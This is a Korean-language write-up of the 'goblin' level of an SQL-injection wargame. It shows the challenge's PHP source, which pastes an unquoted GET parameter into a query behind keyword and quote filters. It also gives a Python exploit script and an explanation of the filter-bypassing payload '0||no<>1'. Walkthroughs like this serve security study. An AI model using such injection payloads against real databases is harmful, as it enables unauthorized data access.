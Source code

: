 ## GOBLIN Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");  
if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");  
$query = "select id from prob_goblin where id='guest' and no={$_GET[no]}";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id']) echo "<h2>Hello {$result[id]}</h2>";  
if($result['id'] == 'admin') solve("goblin");  
highlight_file(__FILE__);  
?>
```
### Exploit 코드
``` python
import requests

url = 'http://los.rubiya.kr/goblin_e5afb87a6716708e3af46a849517afdc.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['no'] = "0||no<>1"

res = requests.get(url, cookies = cookies, params = params)

if "Clear" in res.text :
    print("[♪] GOBLIN Clear!")
```

이번 문제는 get으로 no를 받는다.  
no=1을 주면 **Hello guest** 가 뜬다.
이를 통해 guest가 1이라는 것을 알 수 있었고, no가 1이 아니면 풀릴 듯 했다.

no에 **0||no<>1**을 넣어주면 쿼리는 다음과 같이 된다.

``` php
select id from prob_goblin where id='guest' and no=0||no<>1
```
mysql에서 **<>** 기호는 같지 않다는 의미이기 때문에 **no!=1** 과 같은 의미가 된다.  
**$result['id']** 에 guest가 아닌 값, admin이 있기 때문에 문제가 해결된다.
